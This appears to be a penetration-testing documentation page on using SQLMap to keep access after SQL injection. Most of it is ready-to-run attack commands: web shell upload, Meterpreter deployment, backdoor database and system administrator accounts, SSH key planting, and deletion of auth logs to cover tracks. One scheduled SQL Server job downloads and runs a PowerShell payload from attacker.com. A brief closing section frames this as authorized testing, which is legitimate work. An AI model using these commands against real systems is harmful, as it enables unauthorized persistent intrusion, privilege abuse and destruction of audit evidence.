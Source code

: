 ```yaml
---
title: Maintaining Access
description: Learn how to establish persistent access using SQLMap's advanced techniques
---
```


# Maintaining Access

SQLMap provides several methods to establish persistent access to vulnerable systems after successful SQL injection exploitation. These techniques are valuable for authorized penetration testing scenarios where maintaining access is part of the assessment scope.

## Backdoor Deployment Options

### Web Shell Deployment

SQLMap can deploy a web shell to maintain access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

This uploads a local file to the target web server directory, allowing subsequent access through the web interface.

### Metasploit Integration (--os-pwn)

To establish a Meterpreter session:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-pwn --msf-path=/path/to/metasploit
```

This command:
1. Generates a Metasploit payload
2. Uploads it to the target server
3. Executes it to establish a Meterpreter session
4. Connects back to your Metasploit handler

### SMB Relay Attack (--os-smbrelay)

For Windows targets:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-smbrelay
```

This establishes access using SMB relay techniques, which can be effective in Windows environments.

## Database-Level Persistence

### Creating Database Backdoor Users

To create a new database user with administrative privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --sql-query="CREATE USER 'backdoor'@'%' IDENTIFIED BY 'password123'; GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';"
```

This creates a new database user that can be used for future access.

### Scheduled Tasks and Jobs

For SQL Server, you can create a SQL Agent job:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --sql-query="EXEC msdb.dbo.sp_add_job @job_name='maintenance', @enabled=1; EXEC msdb.dbo.sp_add_jobstep @job_name='maintenance', @step_name='step1', @command='EXEC xp_cmdshell ''powershell -c \"IEX (New-Object Net.WebClient).DownloadString(''''http://attacker.com/payload.ps1'''')\"'''; EXEC msdb.dbo.sp_add_jobschedule @job_name='maintenance', @name='daily', @freq_type=4, @freq_interval=1, @active_start_time=010000;"
```

This creates a scheduled job that executes a command periodically.

## System-Level Persistence

### Creating System Users

On Unix-based systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="useradd -m -p $(openssl passwd -1 password123) backdoor && usermod -aG sudo backdoor"
```

On Windows systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="net user backdoor password123 /add && net localgroup administrators backdoor /add"
```

### SSH Key Deployment

To add an SSH key for persistent access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="id_rsa.pub" --file-dest="/home/user/.ssh/authorized_keys"
```

This adds your public key to the authorized_keys file, allowing SSH access without a password.

## Covering Tracks

After establishing persistence, it's important to clean up evidence:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="rm -f /var/log/auth.log"
```

## Best Practices for Authorized Testing

When maintaining access during authorized penetration tests:

1. Document all persistence mechanisms deployed
2. Use unique identifiers for all created accounts and files
3. Set up proper cleanup procedures for after the test
4. Ensure all persistence mechanisms are removed at the end of testing
5. Coordinate with the system owners about the persistence methods used

Remember that the goal of security testing is to improve security, not to compromise it. Always follow responsible disclosure practices and the agreed-upon rules of engagement.
